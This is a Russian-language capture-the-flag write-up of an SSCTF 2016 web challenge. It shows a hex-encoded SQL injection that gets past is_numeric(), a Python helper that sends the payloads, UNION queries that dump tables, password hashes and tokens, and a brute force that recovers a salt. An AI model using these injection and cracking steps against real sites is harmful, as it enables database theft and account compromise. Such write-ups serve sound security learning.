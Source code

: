 SSCTF 2016 quals Write-up
=====
AFSRC-Market (Web, 500p)
---

![alt-text][main_page]

Просмотрев главную страницу становится понятно, что форма поиска не функционирует.
При попытке добавить какой-либо товар в корзину появляетя просьба войти на сайт и
происходит редирект на страницу входа.
При нажатии на сами товары просиходит переход по ссылке `https://security.alipay.com/`.

![alt-text][alert_msg]

![alt-text][login_page]

На странице входа требуется ввести логин, пароль и капчу. Попытки использовать различные
служебные символы не приводят к неожиданному поведению сайта.
Перейдем к странице регистрации.

![alt-text][register_page]

Попробуем зарегистрировать какого-либо пользователя.

![alt-text][reg_success]

![alt-text][try_login]

Видим сообщение об успешной регистрации и нас перенаправляют на страницу входа. Пытаемся зайти и... Успех!

![alt-text][login_success]

В шапке сайта появились ссылки на профиль пользователя и кнопка выхода. Форма поиска как и раньше не функционирует.
Заметим, что после авторизации в cookie была добавлена единственное значение PHPSESSID - идентификатор сессии в PHP.
Теперь при попытке добавить товар в корзину осуществляется переход по ссылке вида
`http://edb24e7c.seclover.com/add_cart.php?id=XXX` где вместо `XXX` какой-нибудь номер.
После этого окрывается домашняя страница и больше ничего не происходит.
При попытке вставить в параметр `id` различные числа всегда появляется сообщение об успешном добавлении,
при вводе символов, не являющихся цифрами, выдается сообщние об ошибке. Также допистим ввод следующего типа: `id=0x123456`.
Это говорит о том, что параметр `id` скорее всего проверяетя с помощью PHP функции `is_numeric()` перед вставкой в запрос.

![alt-text][user_page]

Теперь рассмотрим страницу пользователя. В шапке сайта появляеся ссылка `AddMoney` на
`http://edb24e7c.seclover.com/addmoney.php`, при переходе по которой выводится сообщение.
Также имеются 3 переключаемые вкладки: `Description`, `Additional Information`, `MyInfo`.
Первые две вкладки не так интересны, т.к. скорее всего являются статическими, а третяя содержит форму
для добавления денег. Попробуем отправить форму и получим сообщение об ошибе. Также внимание привлекает
строка `The Last cost: 0`, попробуем выяснить, откуда взялось значение `0`.
После небольшого исследования становится ясно, что при каждом запросе `/add_cart.php?id=XXX` при указании верного числа в `id` значение принимает случайное ненулевое значение. Если `id=0x123456` или другой случайный hex, то значение обнуляется.
Итак, значение `The Last cost` каким-то оразом зависит от параметра `id` при добавлении товара. Как уже было сказано, скорее всего значение параметра `id` проверяется с помощью функции `is_numeric()`, которая пропускает hex, попробует совершить простую "is_numeric bypass" sql-иньекцию через параметр `id`. Для генерации hex-значение воспользуемся `python3`
```python
>>> hex(int.from_bytes(b'1 AND 1=2 ; -- ', 'big'))
'0x3120414e4420313d32203b202d2d20'
```

![alt-text][try_simple_inj]

![alt-text][simple_inj_result]

Как видно на скрине, значение стало пустым. Для удобства исследование напишем функцию на Python, которая будет
отправлять нужный запрос, и получать новое значение со страницы пользователя.

```python
import requests
import re


URL = 'http://edb24e7c.seclover.com/'
regexp = r'<p>The Last cost: (.*?)</p>'
cookies = {'PHPSESSID': 'ckf3pes604sgtr3vpp3lrc62t4'}


def sql(query):
    hexed = hex(int.from_bytes(query.encode(), 'big'))
    requests.get(URL + '/add_cart.php', params={'id': hexed}, cookies=cookies)
    result = requests.get(URL + '/userinfo.php', cookies=cookies).text
    match_obj = re.search(regexp, result)
    if match_obj:
        return match_obj.group(1)

```

После чего приступим к запросам:

```python
>>> sql('1')
'1103'
>>> sql('1 AND 1=1 GROUP BY 1 ; -- ')
'4024'
>>> sql('1 AND 1=1 GROUP BY 2 ; -- ')
'7939'
>>> sql('1 AND 1=1 GROUP BY 3 ; -- ')
'501'
>>> sql('1 AND 1=1 GROUP BY 4 ; -- ')
'2059'
>>> sql('1 AND 1=1 GROUP BY 5 ; -- ')
'0'
>>> sql('1 AND 1=2 UNION SELECT "first", "second", "third", "fourth" ; -- ')
'third'
```

Итак, мы выяснили, что результатом запроса должна быть строка из четырех элементов, причем мы можем смотреть значение третьего элемента. Продолжим извлечение данных из базы данных.

```python
>>> sql('1 AND 1=2 UNION SELECT 1, 2, database(), 4 ; -- ')
'web05'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema="web05"), 4 ; -- ')
'flag,user,user_goods'
```

Видим очень интересное название таблицы - `flag`.

```python
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema="web05" AND table_name="flag"), 4 ; -- ')
'id,flag'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT COUNT(*) FROM flag), 4 ; -- ')
'1'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT CONCAT(id, ",", flag) FROM flag), 4 ; -- ')
'1,Tips:/2112jb1njIUIJ__tr_R/tips.txt'
```

Попробуем перейти на `/2112jb1njIUIJ__tr_R/tips.txt`.

> tips:
> 1、Congratulations for you !You finished 80%,Come on continue!
> 2、token=md5(md5(username)+salt) salt max lenght is 5(hexs)
> 3、Add the Money Get the Flag

Во второй подсказке говорится о каком-то токене. А чтобы получить флаг, нужно пополнить счет.
Вернемся к форме пополнение денег и посмотрим исходный код формы.

![alt-text][form_source]

Видим, что в форме есть скрытый параметр `salt`, осталось его подобрать, но для этого необходим `token`.
Вернемся к базе данных и посмотрим, какие данные хранятся для пользователя.

```python
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema="web05" AND table_name="user"), 4 ; -- ')
'id,username,password,token,scores'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT CONCAT(id,",",username,",",password,",",token,",",scores) FROM user WHERE username="a1ex01234"), 4 ; -- ')
'1086,a1ex01234,a1412c40bab245f4a17b675263cae6f7,d77716fc244dcdd08b5de5a82375e437,0'
```

Итак, мы получили `token`, который генерируется для каждого пользователя. Воспользовшись второй подсказкой подберем подходящую соль. Для этого опять воспользуемся `python3`, для перебора будет полезна библиотека `itertools`.

```python
import itertools
from hashlib import md5


username = b'a1ex01234'
hex_char = '0123456789abcdef'
token = 'd77716fc244dcdd08b5de5a82375e437'

for salt in itertools.product(hex_char, repeat=5):
    salt = ''.join(salt)
    hash_val = md5(md5(username).hexdigest().encode() + salt.encode()).hexdigest()
    if hash_val == token:
        print('Salt =', salt)
        break
```

Запустим скрипт и видем результат: `Salt = 8b76d`. Добавим её в форму пополнения счета.

![alt-text][flag_is]

Получаем флаг!

[main_page]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Main page"
[main_page]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Main page"
[main_page]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Main page"
[main_page]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Main page"
